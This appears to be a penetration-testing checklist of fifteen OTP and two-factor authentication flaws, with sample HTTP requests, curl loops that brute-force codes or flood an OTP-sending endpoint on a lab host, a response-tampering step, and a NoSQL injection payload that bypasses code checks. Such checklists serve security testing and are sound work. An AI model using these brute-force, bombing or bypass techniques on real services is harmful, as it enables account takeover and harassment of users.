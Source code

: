 # OTP & 2FA Vulnerabilities Testing Scenarios

## Brute-Force & Weak OTP

### 1. Try common OTPs (e.g., 000000, 0000, 1234, 123456)
```http
POST /verify-otp
{
  "otp": "000000"
}
```
- If the server accepts this → weak OTP validation.

---

### 2. Send Null or empty OTP
```http
POST /verify-otp
{
  "otp": null
}
```
- Or leave the OTP field empty.  
- If accepted → missing validation.

---

### 3. Reuse a previously used OTP
Steps:
1. Receive a valid OTP: e.g., 138526  
2. Use it once → works.  
3. Try using the same OTP again.
```http
POST /verify-otp
{
  "otp": "138526"
}
```
- If it's accepted again → logic flaw.

---

### 4. Use an OTP from another user's account
- If you somehow have access to another user's OTP, try using it on your own account:
```http
POST /verify-otp
{
  "otp": "654321"
}
```
- If accepted → OTP is not tied to a specific user.

---

## Rate Limiting

### 5. No rate-limit on OTP verification
- Use Burp Intruder or a script:
```bash
for i in {000000..999999}
do
  curl -X POST https://vulnapp.local/verify-otp -d "otp=$i"
done
```
- If no blocking or delay → brute-force is possible.

---

### 6. No rate-limit on sending OTP
Use burp intruder or a script:
```bash
for i in {1..50}
do
  curl -X POST https://vulnapp.local/send-otp -d "email=test@example.com"
done
```
- If the OTP is sent every time → vulnerable to OTP bombing or resource abuse.

---

## Information Disclosure

### 7. OTP Exposed in Response
**Request:**
```http
POST /send-otp
{
  "email": "test@example.com"
}
```

**Response:**
```json
{
  "otp": "123456",
  "status": "sent"
}
```
- Critical issue — OTP should only be sent via email/SMS, not in API responses.

---

## Bypass & Logic Flaws

### 8. Bypass 2FA via password reset
Steps:
1. Log in with your account  
2. Enable 2FA  
3. Logout  
4. Request a password reset  
5. Open the reset link from email  
6. Set a new password  
- If you're logged in without going through 2FA → bypass exists.

---

### 9. Bypass 2FA via Google OAuth
Steps:
1. Login normally  
2. Enable 2FA  
3. Logout  
4. Click "Login with Google"  
- If you're logged in directly without 2FA → bypass exists.

---

### 10. Bypass 2FA by accessing next step directly
- Try visiting a protected page directly (e.g., `/dashboard`) without completing 2FA.  
- If access is granted → 2FA is not enforced properly.

---

### 11. Response Manipulation
In Burp Suite:
1. Send an incorrect OTP  
2. Look at the response (e.g., `{"verified": false}`)  
3. Modify to: `{"verified": true}`  
- If the system proceeds → insecure front-end handling.

---

### 12. Static or Predictable OTP
- If the OTP is generated using timestamps or patterns, it might be predictable.  
- Example: OTPs like `123456`, `123457`, or always starting with the same digits (e.g., `12xxxx`).
- Test by requesting multiple OTPs and checking for patterns.

---

### 13. NoSQL Injection via 2FA
- If input is directly passed to a MongoDB query without validation:
- Example:
  - Expected: `{"code": 1234}`
  - Malicious: `{"code": {"$gt": 0}}`
- This may bypass verification by returning all matching entries.

---

## Session & Account Logic

### 14. Enable 2FA without verifying email → Pre-Account Takeover
Steps:
1. Register a new account  
2. Enable 2FA before verifying email  
3. Logout  
4. Another user verifies that email later → account takeover possible.

---

### 15. Enabling 2FA doesn't revoke old sessions
Steps:
1. Log into the same account from two devices  
2. On Device B → enable 2FA or change password  
3. Go back to Device A → still has access?  
If yes → sessions are not invalidated properly.
